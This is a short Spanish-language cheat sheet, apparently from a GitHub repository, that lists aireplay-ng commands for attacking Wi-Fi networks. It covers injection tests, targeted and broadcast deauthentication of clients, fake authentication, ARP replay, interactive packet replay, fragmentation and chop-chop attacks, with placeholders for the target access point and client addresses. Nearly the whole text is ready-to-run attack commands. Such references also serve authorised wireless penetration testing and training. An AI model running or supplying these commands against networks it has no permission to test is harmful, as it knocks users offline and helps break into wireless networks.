 # Aireplay-ng Cheat Sheet

#### Pruebas de inyección y calidad
```
aireplay-ng --test <INTERFACE>
```

#### Deautenticación dirigida
```
aireplay-ng -0 10 -a <BSSID-AP> -c <CLIENT-MAC> <INTERFACE>
```

#### Deautenticación global
```
aireplay-ng -0 0 -e <ESSID-AP> -c FF:FF:FF:FF:FF:FF <INTERFACE>

ó

aireplay-ng -0 0 -e <ESSID-AP> <INTERFACE>

ó

aireplay-ng -0 0 -a <BSSID-AP> <INTERFACE>
```

#### Fake Authentication Attack
```
aireplay-ng -1 0 -e <ESSID-AP> -a <BSSID-AP> -h <YOUR-MAC> <INTERFACE> 
```

#### ARP Replay Attack
```
aireplay-ng -3 -b <BSSID-AP> -h <YOUR_MAC> <INTERFACE>
```

#### Interactive Packet Replay Attack
```
aireplay-ng -2 -b <BSSID-AP> -d FF:FF:FF:FF:FF:FF -f 1 -m 68 -n 86 <INTERFACE>

ó

aireplay-ng -2 -r replay_src-<FILE_NAME>.cap <INTERFACE>
```

#### Interactive Packet Replay Attack with the forge ARP packet
```
aireplay-ng -2 -r <ARP_PACKET_NAME> <INTERFACE>
```

#### Fragmentation Attack
```
aireplay-ng -5 -b <BSSID-AP> -h <YOUR_MAC> <INTERFACE>
```

#### Chop chop Attack
```
aireplay-ng -4 -b <BSSID-AP> -h <YOUR_MAC> <INTERFACE>
```

---

[:arrow_left: Regresar](https://github.com/m4lal0/cheatsheets)
